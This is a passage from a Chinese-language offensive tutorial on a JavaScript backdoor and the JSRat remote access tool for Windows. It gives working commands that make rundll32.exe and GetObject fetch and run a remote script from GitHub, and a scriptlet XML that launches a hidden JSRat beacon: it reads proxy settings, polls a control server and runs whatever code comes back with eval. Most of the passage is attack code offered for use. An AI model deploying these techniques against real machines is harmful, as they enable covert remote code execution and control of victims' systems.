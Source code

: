 js文件修改为：

```
GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")

```

执行如图：

![Alt text](http://drops.javaweb.org/uploads/images/3c48f126537231b535398014b36d39b7c007905d.jpg)

0x02 JSRAT
=====

如果用在rundll32执行js的方法上会怎样呢？

1、calc
------

cmd下执行：

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")

```

如图

![Alt text](http://drops.javaweb.org/uploads/images/a670815738ca436515af7291fac0460cd44bcfe0.jpg)

2、jsrat
-------

如果把服务器上文件的内容替换成jsrat的启动代码会怎样呢？  
代码如下:

```
<?xml version="1.0"?>    

<package>
<component id="testCalc">    

<script language="JScript">
<![CDATA[
        rat="rundll32.exe javascript:\"\\..\\mshtml,RunHTMLApplication     


\";document.write();h=new%20ActiveXObject(\"WinHttp.WinHttpRequest.5.1\");w=new%20ActiveXObject(\"WScript.Shell\");try{v=w.RegRead(\"HKCU\\\\Software\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\Internet%20Settings\\\\ProxyServer\");q=v.split(\"=\")[1].split(\";\")[0];h.SetProxy(2,q);}catch(e){}h.Open(\"GET\",\"http://127.0.0.1/connect\",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject(\"WScript.Shell\").Run(\"cmd /c taskkill /f /im rundll32.exe\",0,true);}";
        new ActiveXObject("WScript.Shell").Run(rat,0,true);
]]>
</script>    

</component>
</package>

```
